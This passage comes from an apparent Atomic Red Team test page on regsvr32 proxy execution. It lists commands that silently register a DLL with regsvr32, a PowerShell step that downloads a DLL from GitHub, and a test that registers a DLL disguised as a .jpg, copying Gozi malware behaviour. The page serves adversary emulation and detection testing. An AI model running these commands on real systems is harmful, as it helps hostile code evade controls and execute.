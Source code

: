 
#### Attack Commands: Run with `command_prompt`! 


```cmd
IF "%PROCESSOR_ARCHITECTURE%"=="AMD64" (C:\Windows\syswow64\regsvr32.exe /s #{dll_name}) ELSE ( #{regsvr32path}\#{regsvr32name} /s #{dll_name} )
```




#### Dependencies:  Run with `powershell`!
##### Description: AllTheThingsx86.dll must exist on disk at specified location (#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.010/bin/AllTheThingsx86.dll" -OutFile "#{dll_name}"
```




<br/>
<br/>

## Atomic Test #4 - Regsvr32 Registering Non DLL
Replicating observed Gozi maldoc behavior registering a dll with an altered extension

**Supported Platforms:** Windows


**auto_generated_guid:** 1ae5ea1f-0a4e-4e54-b2f5-4ac328a7f421





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_file | Path to renamed dll file to be registered | path | %temp%&#92;shell32.jpg|
| regsvr32path | Default location of Regsvr32.exe | path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | string | regsvr32.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{regsvr32path}\#{regsvr32name} /s #{dll_file}
```

